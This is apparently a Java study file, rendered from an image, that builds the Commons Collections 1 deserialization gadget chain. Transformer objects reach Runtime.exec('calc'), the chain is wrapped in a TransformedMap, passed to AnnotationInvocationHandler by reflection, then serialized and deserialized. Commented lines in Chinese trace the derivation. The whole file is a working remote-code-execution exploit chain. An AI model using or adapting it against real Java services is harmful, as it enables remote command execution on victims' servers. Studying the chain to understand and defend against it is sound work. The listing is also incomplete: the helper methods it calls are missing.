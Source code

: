 ```plain
import java.lang.reflect.Method;
import java.util.HashMap;
import java.util.Map;

public class CC1Test {
    public static void main(String[] args) throws Exception{


//        Runtime r = Runtime.getRuntime();//单例模式，通过对应方法创建对象//问题一：r 不能序列化，没有继承序列化接口
//        Class c = Runtime.class;
//        Method execMethod = c.getMethod("exec",String.class);
//        execMethod.invoke(r,"calc");


//        Class c = Runtime.class;
//        Method getRuntimeMethod = c.getMethod("getRuntime",null);
//        Runtime r = (Runtime) getRuntimeMethod.invoke(null,null);
//        Method execMethod = c.getMethod("exec", String.class);
//        execMethod.invoke(r,"calc");



//        Method getRuntimeMethod = (Method) new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class);
//        Runtime r = (Runtime) new InvokerTransformer("invoke",new Class[]{Object.class,Object.class},new Object[]{}).transform(getRuntimeMethod);
//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);


//        chainedTransformer.transform(Runtime.class);

//        InvokerTransformer invokerTransformer = new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc"});

        HashMap<Object,Object> map = new HashMap<>();
        map.put("value","aaa");
        Map<Object,Object> transformedmap = TransformedMap.decorate(map,null,chainedTransformer);




        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        Object o = annotationInvocationhdlConstructor.newInstance(Target.class,transformedmap);


        serialize(o);
        unserialize("ser.bin");
    }

```